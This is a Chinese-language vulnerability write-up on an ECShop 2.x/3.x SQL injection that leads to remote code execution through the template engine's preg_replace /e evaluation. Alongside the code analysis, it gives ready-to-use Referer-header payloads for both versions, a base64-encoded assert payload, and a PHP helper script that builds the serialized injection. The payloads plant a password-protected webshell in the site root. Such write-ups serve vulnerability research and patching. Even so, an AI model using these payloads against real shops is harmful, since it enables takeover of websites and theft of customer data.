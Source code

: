 ECShop \<= 2.7.x 代码执行漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId25.png)

继续看fetch函数

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId26.png)

追踪\_eval函数

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId27.png)

\$position\_style变量来源于数据库中的查询结构

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId28.png)

然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了
所以需要在id处构造注释来配合num进行union查询

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId29.png)

payload

    SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- -

函数中有一个判断

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId30.png)

我们 id传入'/\*

num传入\*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10-- -就能绕过了

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId31.png)

var\_dump一下

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId32.png)

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId33.png)

再看fetch函数,传入的参数被fetch\_str函数处理了

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId34.png)

追踪fetch\_str函数，这里的字符串处理流程比较复杂

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId35.png)

    return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source);

这一行意思是比如\$source是xxxx{\$asd}xxx,那么经过这行代码处理后就是返回this-\>select('\$asd')的结果

看看select函数

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId36.png)

第一个字符为\$时进入\$this-\>get\_val函数

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId37.png)

我们\$val没有.\$又进入make\_var函数

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId38.png)

最后这里引入单引号从变量中逃逸

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId39.png)

我们要闭合\_var所以最终payload是

    {$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx

会在网站跟目录生成1.txt 里面内容是getshell

![](./resource/ECShop<=2.7.x代码执行漏洞/media/rId40.png)

### 2.x

phpinfo():

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca

webshell:

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}

　　会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

webshell:

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

　　会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

　　下面给出一个序列化的php脚本（第9个位置就是你想要的）：

    <?php
    $arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
    echo serialize($arr);
    ?>

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
